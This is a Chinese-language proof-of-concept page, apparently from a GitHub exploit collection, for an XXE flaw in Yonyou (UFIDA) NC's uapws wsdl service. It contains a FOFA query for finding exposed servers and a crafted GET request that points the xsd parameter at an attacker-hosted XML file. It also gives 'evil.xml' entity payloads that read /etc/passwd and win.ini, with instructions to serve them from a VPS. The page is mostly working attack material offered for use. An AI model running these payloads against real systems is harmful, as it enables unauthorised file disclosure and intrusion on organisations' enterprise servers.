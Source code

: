 ## 用友 NC uapws wsdl XXE漏洞
用友 NC uapws wsdl 存在XXE漏洞

## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
http://x.x.x.x/uapws/service/nc.uap.oba.update.IUpdateService?wsdl

GET /uapws/service/nc.uap.oba.update.IUpdateService?xsd=http://x.x.x.x/test.xml HTTP/1.1
Host:
Pragma: no-cache
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
```

![image](https://github.com/wy876/POC/assets/139549762/d11cc7e3-b0d2-484d-9911-ca742cc384d5)

![image](https://github.com/wy876/POC/assets/139549762/7a77f089-7a6e-49e4-965b-59ebe9fe23fb)

## xxe读取文件
任意文件读取利用，需要VPS上建立对应操作系统的xml文件，然后开启http服务。xml文件如下

```
windows:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///c://windows/win.ini">]><user><username>&name;</username><password>1</password></user>

linux:
evil.xml:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///etc/passwd">]><user><username>&name;</username><password>1</password></user>
```

![image](https://github.com/wy876/POC/assets/139549762/dfbf0584-9fa5-45ea-92d0-0e13160d4bf0)

![image](https://github.com/wy876/POC/assets/139549762/c218c1dd-e73b-42b5-bbce-f96da6efbb08)

